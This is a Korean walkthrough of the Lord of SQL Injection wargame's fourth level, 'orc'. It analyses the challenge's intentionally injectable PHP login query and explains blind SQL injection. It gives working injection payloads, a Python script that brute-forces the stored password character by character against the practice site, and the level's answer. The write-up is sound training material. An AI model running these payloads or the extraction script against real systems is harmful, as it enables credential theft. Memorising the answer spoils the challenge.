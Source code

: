 # Lord of SQL Injection No.4 - orc

## 문제 출제 의도

기본적인 Blind SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석

orc 문제의 php 소스 코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `(`, `)` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello admin" 이라는 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

-----

## Blind SQL Injection

4번 orc 문제같은 경우 실제 pw값을 알아내야 한다. 이때 화면에 Hello admin이라는 문자열이 출력되었는지 안 되었는지 여부에 따라 조작한 SQL문의 조건절이 참인지 거짓인지 알아낼 수 있다.

이처럼 SQL Injection이 가능하고 조작한 SQL문의 조건절이 참인지 거짓인지를 구분할 수 있는 경우 원하는 데이터를 한 글자씩 알아낼 수 있는데, 이를 Blind SQL Injection 이라고 한다.

-----

## Solution

1. SUBSTR() 함수 활용

    ```
    http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=' or id='admin' and length(pw)=8-- -
    ```
    ```sql
    select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)=8-- -'
    ```

    이는 "Hello admin"을 출력하게 만든다. 즉, pw는 8자리임을 알아낸 것이다.

    이와 비슷한 방법으로 쿼리를 조작하면 pw 역시 전부 알아낼 수 있다.

    하지만 이를 반복하여 8자리를 모두 알아내는 것은 사람이 하기 버거우므로 python 코드를 작성하여 풀면 편하다.
    
    ```python
    import urllib.request # python3의 내장 라이브러리인 urllib의 request 모듈을 사용할 수 있도록 이 코드에 불러온다.
    from urllib.parse import quote # python3의 내장 라이브러리인 urllib의 parse 모듈에 들어있는 quote 함수를 사용할 수 있도록 이 코드에 불러온다.

    key = "" # pw값을 저장할 문자열 변수
    for i in range(1, 9): # 8자리임을 알아냈으므로 i에는 1부터 8까지 들어가도록 반복문을 구성
        for j in range(32, 127): # ASCII Code에서 화면에 출력 가능한 문자의 10진수 범위는 32부터 126까지이다.
            url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=" # 공격할 URL에서 변하지 않는 부분이다.
            data = "' or id='admin' and substr(pw, 1, {})='{}'#".format(
                str(i), key + chr(j)) # 반복문을 진행하며 계속 다른 문자가 들어갈 문자열이다.
            print(data) # 반복문이 한 번 돌 때마다 URL을 출력하도록 한다.
            data = quote(data) # URL Encoding을 해 준다.
            re = urllib.request.Request(url + data) # 1행에서 불러온 request 모듈의 Request 클래스를 통해 Request 객체를 만든다.

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36") # re 객체의 header에 User-agent를 추가한다. User-agent가 없으면 403 Forbidden 오류가 난다. 
            re.add_header(
                "Cookie", "PHPSESSID=jaqm7mrah73p9vvsj7mlp8ec23"
            ) # re 객체의 header에 Cookie로 본인이 로그인한 클라이언트의 PHPSESSID를 추가한다. 이것이 없으면 페이지가 login_chk()에 걸려 그 다음 처리를 하지 않고 <script>location.href='./';</script> 만 응답한다.

            req = urllib.request.urlopen(re) # 객체를 이용해 요청을 보낸다.

            if str(req.read()).find("Hello admin") != -1: # 응답에서 "Hello admin"이라는 문자열을 찾은 경우. find()는 찾으면 시작 인덱스를, 못 찾으면 -1을 반환하는 함수이다.
                key += chr(j).lower() # key 변수 뒤에 ASCII Code로 j값에 해당하는 문자를 붙인다.
                print(key) # key를 출력한다.
                break # i번째 위치의 문자를 찾았으므로 반복문을 탈출한다.
    print(key) # 반복문이 끝나면 최종적으로 찾아낸 8글자 key를 출력한다.
    ```

    이러한 코드를 실행하면 결과값으로 295d5844 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw=295d5844
    ```